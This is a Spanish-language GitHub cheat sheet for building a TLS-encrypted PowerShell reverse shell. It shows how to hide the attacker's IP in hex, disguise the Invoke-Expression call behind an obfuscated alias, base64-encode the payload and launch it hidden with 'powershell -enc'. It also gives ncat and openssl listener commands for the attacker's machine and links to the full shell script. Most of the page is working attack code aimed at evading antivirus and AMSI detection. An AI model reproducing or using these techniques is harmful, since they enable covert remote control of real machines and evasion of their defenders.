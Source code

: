 ## **TCP Reverse Shell mediante TLS en Powershell**

Todos los agradecimientos a estos dos enlaces, es puro virtuosismo lo que hay ahí, esto no es más que un copia y pega:

https://0xdarkvortex.dev/index.php/2019/07/17/red-team-ttps-part-1-amsi-evasion/

https://github.com/3v4Si0N/HTTP-revshell

**1.- Ofuscar la IP**

Básicamente se trata de crear los valores en hexadecimal:

```
printf "%x,%x,%x,%x\n" 192 168 11 34
c0,a8,b,22
```

```powershell
$px = "c0","a8","b","22"
$p = ($px | ForEach { [convert]::ToInt32($_,16) }) -join '.'
```

**2.- Ofuscar la cadena IEX**

Establecemos un alias con los valores de una cadena aleatoria, extrayendo la cadena con los índices del array:

```powershell
$x = "new-exercise"
Set-alias $x  ($x[$true-4] + ($x[[byte]("0x" + "FF") - 263]) + $x[[byte]("0x" + "ba") - 193]) .'
```
Aquí otro método que he visto, pero la idea es utilizar el tuyo propio:
```powershell
[array]$shurmano = "I","n","t","E","r","n","e","X" ;
set-alias new-exercise $($shurmano | foreach { if ($_ -cmatch '[A-Z]' -eq $true) {$x += $_}}; $x)
```
**3.- Pasar el script de powershell a base64**

```
cat tlsrevshell.ps1 | iconv -f UTF8 -t UTF16LE | base64 -w 0
```
**4.- Ejecutarlo desde consola PS **

```
powershell -noP -sta -w 1 -enc ENC64SCRIPT
```

Como muestra de estás técnicas os dejo el [TCP reverse shell con TLS](https://github.com/g4ngli0s/chuletas/blob/master/bypasspowershell/tlsrevshell.ps1), como listener en vuestra máquina kali podeís usar ncat u openssl:

```
ncat --allow <IP> -vnl <PORT> --ssl
```
```
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
openssl s_server -quiet -key key.pem -cert cert.pem -port <PORT>
```

